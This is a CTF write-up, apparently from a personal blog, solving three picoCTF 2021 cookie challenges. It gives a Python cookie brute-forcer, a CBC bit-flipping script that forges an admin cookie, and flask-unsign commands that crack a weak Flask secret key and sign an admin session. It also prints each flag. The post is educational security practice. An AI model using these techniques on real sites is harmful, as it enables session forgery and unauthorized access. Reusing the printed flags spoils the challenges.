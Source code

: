 ```yaml
---
title: PicoCTF - Cookies
date: Wed Jul  5 02:42:56 PM +04 2023
categories: [Writeup]
tags: [ctf,picoctf,picoctf2021,web]
---
```


## Cookies

Author:  Madstacks

### Description

Who doesn't love cookies? Try to figure out the best one.  [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

### Solution

Website takes  in cookie name and checks for 'special' cookie. 

By inspecting `Cookies` from `Web Developer Tools` we can see `name` cookie being set to a number. If number is changed so is the cookie name.

Using script we can cycle through the cookies to find 'special' one.

```py
import requests
import re

URL = "http://mercury.picoctf.net:29649/check"

for i in range(32):
    resp = requests.get(URL, cookies={"name": str(i)}).text
    if "Not very special though" not in resp:
        print(i, re.search(r"<code>(picoCTF.*)</code>", resp).group(1))
        break
    cookie = re.search(r"I love (.*) cookies!", resp).group(1)
    print(f"Trying: {i=}\t{cookie=}{' '*16}", end='\r')
```

> Flag: picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
{: .prompt-tip }

> Special cookie is at index 18
{: .prompt-info }

## More Cookies

### Description

I forgot Cookies can Be modified Client-side, so now I decided to encrypt them!  [http://mercury.picoctf.net:34962/](http://mercury.picoctf.net:34962/)

<details>
    <summary>Hint 1</summary>
    [Homomorphic Encryption](https://www.wikiwand.com/en/Homomorphic_encryption)
</details>

<details>
    <summary>Hint 2</summary>
    The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
</details>

### Analysis

Website says: ___Welcome to my cookie search page. Only the admin can use it!___

Description is also written a little funny, `Cookies can Be modifed Client-side` => [CBC Encryption](https://www.wikiwand.com/en/Block_cipher_mode_of_operation). There's a known vulnerability called [The Bit Flipping attack](https://crypto.stackexchange.com/a/66086).

### Solution

To reduce bruteforce count my first approach was to try Byte Flip.

```py
from base64 import b64decode as bd, b64encode as be
import requests
import re

URL = "http://mercury.picoctf.net:34962"

with requests.Session() as session:  # Get Cookie Automatically
    session.get(URL)
    cookie = session.cookies['auth_name']
    cookie = bytearray(bd(bd(cookie)))

for position in range(len(cookie)):
    for bit in range(8):  # Bytes. 1 << n = pow(2, n)
        cookie_modifed = cookie[:]  # Copy Original Cookie
        cookie_modifed[position] ^= 1 << bit  # Flip The Bit With XOR
        cookie_modifed = be(be(cookie_modifed)).decode()  # Encode Cookie To Be Sent
        resp = requests.get(URL, cookies={'auth_name': cookie_modifed}).text  # Guess Cookie
        match = re.search(r"<code>(picoCTF.*)</code>", resp, re.I)  # Search For Flag
        if match:
            print(position, bit, match.group(1))
            exit()
        print(f"Trying: {position=}\t{bit=}{' '*4}", end='\r')  # Progress Bar

# >>> Match: position=9       byte=0  Flag=picoCTF{cO0ki3s_yum_e40d16a9} 
```

> Flag: picoCTF{cO0ki3s_yum_e40d16a9} 
{: .prompt-tip }

> Match: position=9    byte=0
{: .prompt-info }

## Most Cookies

### Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!<br> 
[server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) <br> [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)

### Solution

Vulnaribility is `app.secret_key =  random.choice(cookie_names)`. secret_key prevents users manipulating the cookies in flask application, if it's known then user can change cookies to whatever, so secret_key must be secured.

I first converted the list of cookies into wordlist (text file seperated by newlines), then used ___[flask-unsign](https://pypi.org/project/flask-unsign/)___ to get the secret key and forge new cookie.

```bash
└─$ flask-unsign --wordlist keys --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZKVKig.5y5lf-OZ0gIlDBs6HPE33yZU4Nc --unsign
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                                                       
└─$ flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "peanut butter"                                
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZKVLZg.Zptg98ybr6N_-o8MkUkj58xVPf8
```

Change the cookie on website, I like to do it from Web Developer Tools.

> Flag: picoCTF{pwn_4ll_th3_cook1E5_3646b931}
{: .prompt-tip }

> Encountered similar challenge at HSCTF 10 - [Very Secure](https://xhacka.github.io/posts/Very-Secure/)
{: .prompt-info }